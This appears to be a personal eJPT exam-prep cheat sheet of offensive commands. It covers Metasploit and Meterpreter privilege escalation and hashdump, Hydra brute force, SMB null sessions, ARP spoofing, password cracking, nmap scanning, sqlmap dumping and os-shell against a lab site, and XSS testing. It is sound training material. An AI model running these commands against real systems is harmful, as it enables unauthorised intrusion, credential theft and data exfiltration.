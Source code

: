 +++
date = '2024-11-19T21:15:08+01:00'
draft = true
title = 'eJPT Exam Prep'
+++

# Metasploit

Basic Commands

```
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
```

Meterpreter Commands

```
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

# Networking Attacks

Brute Force with Hydra

```
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

Windows Shares with null sessions

```
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

ARP Spoofing

```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

---
description: Using enum4linux and samrdump.py
---

# Null Sessions

```
enum4linux -n IP
enum4linux -P IP
enum4linux -s /user/share/enum4linux/share-list.txt IP
enum4linux -a IP

cd /usr/share/doc/python-impacket-doc/examples
python samrdump.py IP 

nmap -script=smb-enum-shares IP
nmap -script=smb-enum-users IP
nmap -script=smb-brute IP
```

# Password Bruteforce

First we need to prepare the file for John

```
unshadow passwd shadow > unshadow
```

For hash cracking:

```
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

# Scanning

Best NMAP Scan

```
sudo nmap -T4 -Pn -n -vv -p- -A --open -iL ips.txt
```

Whois

```
whois site.com
```

Ping sweep

```
fping -a -g 10.10.10.0/24 2>/dev/null
nmap -sn 10.10.10.0/24
```

OS Detection

```
nmap -Pn -O 10.10.10.10
```

Nmap Quick Scan

```
nmap -sC -sV 10.10.10.10
```

Nmap Full Scan

```
nmap -sC -sV -p- 10.10.10.10
```

Banner Grabbing

```
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

More Banner Grabbing

```
nmap -sV --script=banner 192.73.96.0/24
```

More Nmap port discovery without ping sweep

```
nmap -p- -Pn -vv -T4 -n IP
```

Port information

```
nmap -sC -sV -p PORT IP
```

Lookup of Nmap scripts

```
locate .nse
```

Vulnerability searching Nmap

```
nmap -sV -sC --script vuln -oN blue.nmap 10.10.126.213
```

Nmap SynScan usefull for nullsessions (enum4linux next)

```
nmap -sS -p 135,139,445 IP.0-255
```

# SQLi

```
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump
--cookie !!
```

Example:

<pre><code><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title
</strong><strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs
</strong>sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users --columns
sqlmap -u "http://demo.ine.local/sqli_1.php?title=hello&#x26;action=search" --cookie "PHPSESSID=m42ba6etbktfktvjadijnsaqg4; security_level=0" -p title --dbs -D bWAPP --tables -T users -C admin,password,email --dump
</code></pre>

This last example is for a GET sql injection. For a POST injection save the post from burpsuite and execute the following command.

```
sqlmap -r request -p title
```

# Subdomain Enumeration

Dirsearch or gobuster are both good options

```
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

# Vuln Assessment

Rapid7

{% embed url="https://www.rapid7.com/db/" %}

Exploit-DB

{% embed url="https://www.exploit-db.com/" %}

# XSS

Reflected XSS = Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload&#x20;

Persistent XSS = Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post

```
1. Find a reflection point
2. Test with <i> tag
3. Test with HTML/JavaScript code (alert('XSS'))
```


